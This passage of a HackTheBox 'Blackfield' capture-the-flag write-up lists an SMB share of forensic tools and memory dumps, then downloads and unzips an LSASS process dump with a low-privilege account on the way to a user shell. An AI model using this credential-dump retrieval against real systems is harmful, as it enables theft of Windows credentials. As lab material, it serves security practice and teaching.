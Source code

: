 These are tools used for Digital forensics.

```bash
smb: \> cd tools
smb: \tools\> ls
  .                                   D        0  Sun Feb 23 19:09:08 2020
  ..                                  D        0  Sun Feb 23 19:09:08 2020
  sleuthkit-4.8.0-win32               D        0  Sun Feb 23 19:09:03 2020
  sysinternals                        D        0  Sun Feb 23 19:05:25 2020
  volatility                          D        0  Sun Feb 23 19:05:39 2020

		7846143 blocks of size 4096. 4095034 blocks available
smb: \tools\>
```

So these must be the files which are got from the tools.

```bash
smb: \> cd memory_analysis
ls
smb: \memory_analysis\> ls
  .                                   D        0  Fri May 29 01:58:33 2020
  ..                                  D        0  Fri May 29 01:58:33 2020
  conhost.zip                         A 37876530  Fri May 29 01:55:36 2020
  ctfmon.zip                          A 24962333  Fri May 29 01:55:45 2020
  dfsrs.zip                           A 23993305  Fri May 29 01:55:54 2020
  dllhost.zip                         A 18366396  Fri May 29 01:56:04 2020
  ismserv.zip                         A  8810157  Fri May 29 01:56:13 2020
  lsass.zip                           A 41936098  Fri May 29 01:55:08 2020
  mmc.zip                             A 64288607  Fri May 29 01:55:25 2020
  RuntimeBroker.zip                   A 13332174  Fri May 29 01:56:24 2020
  ServerManager.zip                   A 131983313  Fri May 29 01:56:49 2020
  sihost.zip                          A 33141744  Fri May 29 01:57:00 2020
  smartscreen.zip                     A 33756344  Fri May 29 01:57:11 2020
  svchost.zip                         A 14408833  Fri May 29 01:57:19 2020
  taskhostw.zip                       A 34631412  Fri May 29 01:57:30 2020
  winlogon.zip                        A 14255089  Fri May 29 01:57:38 2020
  wlms.zip                            A  4067425  Fri May 29 01:57:44 2020
  WmiPrvSE.zip                        A 18303252  Fri May 29 01:57:53 2020
```

There is `[lsass.zip](http://lsass.zip)`.

> What is LSASS? Local Security Authority Subsystem Service is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system

## Getting User Shell

Downloaded to my machine. 

```bash
root@kali:~/CTF/HTB/Boxes/Blackfield/memory_analysis# smbget -R smb://10.10.10.192/forensic/memory_analysis/lsass.zip -U audit2020
Password for [audit2020] connecting to //forensic/10.10.10.192: 
Using workgroup WORKGROUP, user audit2020
smb://10.10.10.192/forensic/memory_analysis/lsass.zip                                                                 
Downloaded 39.99MB in 557 seconds
root@kali:~/CTF/HTB/Boxes/Blackfield/forensic/memory_analysis# unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP               
root@kali:~/CTF/HTB/Boxes/Blackfield/forensic/memory_analysis# ls
lsass.DMP  lsass.zip
```
